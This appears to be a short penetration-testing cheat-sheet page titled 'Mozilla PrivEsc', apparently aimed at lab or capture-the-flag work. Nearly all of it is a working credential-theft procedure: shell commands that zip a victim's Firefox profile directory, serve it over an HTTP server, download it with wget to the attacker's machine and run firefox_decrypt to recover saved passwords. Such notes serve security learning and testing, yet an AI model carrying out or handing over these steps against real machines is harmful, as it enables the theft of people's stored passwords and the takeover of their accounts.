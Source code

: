 ```yaml
---
title: Mozilla PrivEsc
desc:
tags: [Firefox, Linux, Mozilla, PrivEsc, Privilege]
alts: []
render_with_liquid: true
---
```


## Extract Passwords from Firefox Profile

First, zip **.mozilla** directory in target machine, and open web server to transfer the zip file to local machine.

```sh
zip -r /tmp/mozilla.zip ./.mozilla
cd /tmp
python3 -m http.server 8000
```

In local machine, download the zip file from the target machine, and unzip it.

```sh
wget http://<target-ip>:8000/mozilla.zip
unzip mozilla.zip
```

To crack the profile of Firefox, use **[firefox_decrypt](https://github.com/unode/firefox_decrypt){:target="_blank"}{:rel="noopener"}**.

```sh
python3 firefox_decrypt.py .mozilla/firefox/<id>.default-release
```